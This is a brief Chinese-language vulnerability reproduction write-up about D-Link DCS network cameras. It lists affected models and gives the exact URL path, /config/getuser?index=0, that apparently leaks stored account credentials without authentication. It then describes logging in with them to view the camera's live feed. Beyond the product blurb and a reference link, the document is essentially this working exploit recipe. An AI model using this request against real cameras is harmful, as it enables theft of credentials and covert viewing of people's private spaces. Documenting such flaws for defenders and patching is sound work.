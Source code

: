# 0x00 软件介绍
D-Link DCS系列：D-Link是一家台湾科技公司，中文名：友讯科技，其旗下的DCS系列是畅销的网络摄像机

# 0x01 复现环境
复现环境：本地环境  
复现版本：None  
环境搭建：  
无

# 0x02 利用条件
无

# 0x03 影响版本
DCS-2530L  
DCS-2670L  
DCS-4603  
DCS-4622  
等多个DCS系列系统

# 0x04 漏洞复现
添加URL：/config/getuser?index=0  
即访问[http://xxx.xxx.xxx.xxx/config/getuser?index=0](http://xxx.xxx.xxx.xxx/config/getuser?index=0)会泄露账号和密码

使用账号密码登陆后即可查看摄像头的监控画面  
![image](./pic/0.png)

# 0x05 批量脚本
无

# 0x06 参考链接
https://mp.weixin.qq.com/s/b7jyA5sylkDNauQbwZKvBg

